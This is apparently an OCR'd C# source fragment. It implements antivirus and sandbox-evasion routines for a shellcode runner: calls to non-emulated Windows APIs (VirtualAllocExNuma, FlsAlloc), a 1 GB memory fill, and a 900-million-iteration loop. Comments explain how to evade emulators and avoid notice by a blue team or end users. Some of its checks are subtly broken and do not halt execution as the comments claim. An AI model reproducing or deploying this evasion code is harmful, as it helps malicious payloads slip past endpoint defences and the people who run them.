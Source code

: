 ```csharp
        }
        // DLL import for VirtualAllocExNuma so we can use this Non Emulated API to aid in evasion
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
        // We also need GetCurrentProcess for our VirtualAllocExNuma code
        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();
        // DLL import for FlsAlloc so we can use this Non Emulated API to aid in evasion
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr FlsAlloc(IntPtr callback);
        // The below code uses 2 Non Emulated APIs to evade sandboxes
        public static void NonEmulatedAPIs()
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }
            IntPtr ptrCheck = FlsAlloc(IntPtr.Zero);
            if (ptrCheck == null)
            {
                return;
            }
        }
        // This fills 1 GB of memory to try to bypass sandbox emulation
        // Allocates a ~1.07GB byte array and zeroes it out, then checks if the last value is equal to 0. The theory is that an antivirus engine will forgo zeroing out all this memory, thus the program will quit before the shellcode runner can be examined.
        // https://github.com/cinzinga/Evasion-Practice
        // If priority is to bypass emulation you could leave it at 1 GB, but if priority is to avoid detection by blue team/end users, bring memory usage down to 100 MB so it doesn't stand out as much
        public static void FillMemoryBypass()
        {
            byte zeroVal = 1;
            byte[] evdata = new byte[32768 * 32768];
            Array.Clear(evdata, 0, evdata.Length);
            Console.WriteLine("~1GB filled!");
            System.Threading.Thread.Sleep(1000);
            byte lastVal = (byte)evdata.GetValue((32768 * 32768) - 1);
            if (lastVal.Equals(zeroVal))
            {
                return;
            }
        }
        // Perform for loop 900 million times, this is not a lot for a modern CPU but is enough to trick up an emulator, continue execution flow after complete
        public static void ManyIterations()
        {
            int count = 0;
            int max = 900000000;
            for (int i = 0; i < max; i++)
            {
                count++;
            }
            if (count == max)
            {
                return;
            }
        }
        // Code taken from: https://redfoxsecurity.medium.com/antivirus-evasion-26a30f072f76
```